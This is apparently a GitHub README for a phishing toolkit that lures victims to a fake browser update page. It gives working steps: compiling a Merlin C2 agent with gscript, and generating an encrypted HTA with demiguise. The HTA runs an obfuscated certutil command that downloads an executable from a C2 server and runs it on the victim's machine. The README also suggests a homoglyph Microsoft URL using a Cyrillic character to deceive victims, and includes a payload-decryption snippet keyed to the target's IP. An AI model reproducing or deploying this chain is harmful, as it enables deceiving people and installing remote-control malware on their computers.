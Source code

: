 Phishing HTA Shell
====

Phish victims by directing them to a malicious browser update page. HTA or download fallback. Use demiguise to generate encrypted hta pages. Obfuscate the agent with Invoke Obfuscater (PS), DKMC or gscript. Here I'm using gscript/merlin C2C. Obfuscate your DOS commands with "" ^ / etc.

## Environment
Target IP: ```99.59.119.28```
C2C Server: ```26.00.13.37```

## Gscript
```./gscript compile --os=windows --arch=amd64 merlin.gs```
optionally generate payloads for other operating systems

## Demiguise
```python demiguise.py -k 99.59.119.28 -c 'cmd.exe /c certutil /""ur""lcache -split -f ht^tp://26.00.13.37/agent.exe %userprofile%\\AppData\\Local\\Temp\\agent.exe && cmd.exe /c %userprofile%\\AppData\\Local\\Temp\\agent.exe' -o /root/phishing/hta/index.hta -p WbemScripting.SWbemLocator```

or: ```-f ht^tp://micrоsoft.com/en-us/updates/update.exe```  (crylic о character)

## Payload Decryptor
<script src="https://ajax.googleapis.com/ajax/libs/jquery/3.2.1/jquery.min.js"></script>
var dFcdrH=function () 
	{var ithurswhenip=$.ajax({url:'https://api.ipify.org?format=json',async:false}).responseJSON.ip;return ithurswhenip};

## Start server

```screen -d -m "python3 -m http.server 80"```
